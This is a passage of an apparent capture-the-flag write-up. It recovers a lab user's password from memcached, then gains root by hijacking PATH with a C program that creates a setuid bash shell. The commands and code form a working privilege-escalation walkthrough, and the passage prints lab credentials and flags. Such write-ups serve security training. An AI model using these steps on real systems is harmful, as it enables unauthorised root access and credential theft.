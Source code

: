 **Note: 1 => Slab_ID  0 => dump all key in the particular slab**

```
ITEM id [4 b; 1618660953 s]
ITEM email [14 b; 1618660953 s]
ITEM salary [8 b; 1618660953 s]
ITEM password [15 b; 1618660953 s]
ITEM username [4 b; 1618660953 s]
```
4. Get the values of those objects. 

```
get username
VALUE username 0 4
Orka
END
get password
VALUE password 0 15
OrkAiSC00L24/7$
END
```

# user.txt

```
1a26a6d51c0172400add0e297608dec6
```

# Privilege Escalation

sudo -l

```
User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
```

And we find ourselves a ELF binary. On executing it we don't have the password. So let's `strings` teh binary and the password is `password`. And python is called without full path. Looking at $PATH we can see /usr/sbin can be written by Orka.

# /tmp/python.c

```
#include <stdio.h>
#include <stdlib.h>

void main(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

gcc -o python python.c => Let's copy it to /usr/sbin since we can write there and the path is set.
cp /tmp/python /usr/sbin/
sudo /home/Orka/Desktop/bitcoin

And we are root!!🎉

# root.txt

```
f4e788f87cc3afaecbaf0f0fe9ae6ad7
```